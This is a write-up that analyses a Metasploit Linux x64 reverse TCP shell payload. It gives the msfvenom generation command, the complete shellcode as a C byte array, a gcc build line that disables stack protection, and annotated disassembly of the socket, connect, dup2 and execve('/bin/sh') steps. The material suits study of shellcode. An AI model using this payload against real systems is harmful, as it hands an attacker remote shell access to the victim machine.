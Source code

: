 # Reverse Tcp Shell
I created the payload like this:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f c
```
LHOST and LPORT specify the IP and port to connect to

## Testmodule
As I did for the first analysed payload I placed the shellcode into a C programm:
unsigned char buf[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
"\xb9\x02\x00\x11\x5c\x7f\x00\x00\x01\x51\x48\x89\xe6\x6a\x10"
"\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
"\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

And compiled it like this:
```
gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```

## Analysis

1. Create a new socket by socket(AF_INET, SOCK_STREAM, 0)

    push 0x29   ; SYS_SOCKET
    pop rax
    cdq         ; CLEAR RDX 
    push   0x2  ; AF_INET
    pop    rdi
    push   0x1  ; SOCK_STREAM
    pop    rsi
    syscall  
    xchg   rdi,rax ; Place returned fd in rdi

2. Create struct_sockaddr

    movabs rcx,0x100007f5c110002 ; Struct with ip, port and sin_family 
    push   rcx
    mov    rsi,rsp ; rsi now points to the struct
    push   0x10 # Size of struct
    pop    rdx
    push 0x2a ; SYS_CONNECT
    pop rax
    syscall

3. dup2 loop

    push   0x3 
    pop    rsi
    dec    rsi
    push   0x21 ; dup2
    pop    rax
    syscall

    jne 0x7fffffffdce7  ; Make sure to duplicate everything
    dec    rsi
    push   0x21 ; dup2
    pop    rax
    syscall
    jne    0x7fffffffdce7


4. Execve syscall .
    push   0x3b # SYS_EXECVE
    pop    rax
    cdq
    movabs rbx,0x68732f6e69622f
    push   rbx
    mov    rdi,rsp
    push   rdx
    push   rdi
    mov    rsi,rsp
    syscall ; execve("/bin/sh", "/bin/sh", 0);



